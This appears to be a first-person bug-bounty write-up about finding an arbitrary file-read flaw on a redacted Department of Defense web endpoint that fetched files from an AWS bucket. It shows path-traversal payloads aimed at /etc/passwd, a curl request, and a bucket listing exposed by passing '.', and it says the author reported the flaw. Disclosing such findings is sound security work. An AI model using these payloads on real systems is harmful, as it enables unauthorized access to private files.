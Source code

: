 # How I (Technically) Hacked the Department of Defense

It's counterintuitive, but one of the best places to go bug bountying US Department of Defense. It's probably a combination of the massive attack service, dated technology (they still mostly use LAMP), and thin IT support. So here's how I bypassed their web security as 19-year-old with a MacBook.

In keeping with the DOD policy, I've redacted the names of all sites and changed the names of all endpoints. 

I was poking around an some software that supported marine navigation tech when I noticed an interesting endpoint ```https://REDACTED/getAWSFile.php?file=```. I could query a file from it, and it would return the requested file.

Since the site was running LAMP, I figured I would check for [Local File Inclusion (LFI)](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) bugs, which old PHP applications are sometimes susceptible to. I was running a fuzzing script when I noticed something strange:

```bash
python3 lfi_fuzz.py
../../../etc/passwd                               returned 413 B
../../../etc/passwd............                   returned 413 B
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd returned 413 B

[...]

.                                                 returned 16024 B 
```

When I fed "." into the query, it returned 4,000x more data than it should. I quickly tried to reproduce this with curl:

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: REDACTED.mil' -H $'Accept: */*' \
    -b $'JSESSIONID=<COOKIE>' \
    $'https://REDACTED.mil/getAWSFile.php?file=.'
```

which returned the result:

```xml
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
  <Name>REDACTED</Name>
  <Prefix/>
  <Marker/>
  <MaxKeys>1000</MaxKeys>
  <IsTruncated>false</IsTruncated>
  <Contents>
    <Key>example-object-1.txt</Key>
    <LastModified>2023-01-01T12:00:00.000Z</LastModified>
    <ETag>"1b2cf535f27731c974343645a3985328"</ETag>
    <Size>1024</Size>
    <StorageClass>STANDARD</StorageClass>
  </Contents>
  <Contents>
    <Key>example-object-2.jpg</Key>
    <LastModified>2023-01-02T15:30:00.000Z</LastModified>
    <ETag>"3a5c8b7f2f50d063edebf9cda548579f"</ETag>
    <Size>2048</Size>
    <StorageClass>STANDARD</StorageClass>
  </Contents>

[...]

</ListBucketResult>
```

What was happening under the hood was the server was fetching files from an external AWS bucket, and when I fed it the "." character (which stands for 'the current directory' in the Unix shell) the Bucket dumped its entire directory listing and returned it. Since I now had the full path to every file on the bucket, I could just plug them into the file parameter of the request to read any file on the server.

I picked a random file ```REDACTED/SiteContent/StaticFiles/data/files/navdata.txt```, plugged it into the ```getAWSFile.php``` endpoint, and the server returned: 

```
--------------------------------------------------------------------------------

DATABASE:  /REDACTED

All libraries corrected through NTM 11/23 (18 March 2023).


-----GENERAL SCALE LIBRARIES: (2)

[...]
```

I could see and read every file on the bucket. Since the DOD takes their information security pretty seriously, I didn't enumerate any further and I reported it. 
